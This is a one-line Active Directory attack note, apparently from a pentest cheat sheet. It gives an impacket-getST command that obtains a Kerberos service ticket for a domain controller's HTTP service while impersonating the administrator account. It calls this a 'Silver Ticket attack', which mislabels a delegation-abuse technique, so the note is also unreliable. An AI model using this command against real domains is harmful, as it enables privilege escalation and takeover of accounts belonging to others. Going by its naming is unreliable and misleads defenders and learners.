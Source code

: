 ## Use this impacket module to perform a Silver Ticket attack

#### 1) impacket-getST -spn HTTP/DC.DOMAIN.COM -impersonate administrator -dc-ip DC_IP -k -no-pass DOMAIN.COM/USERNAME
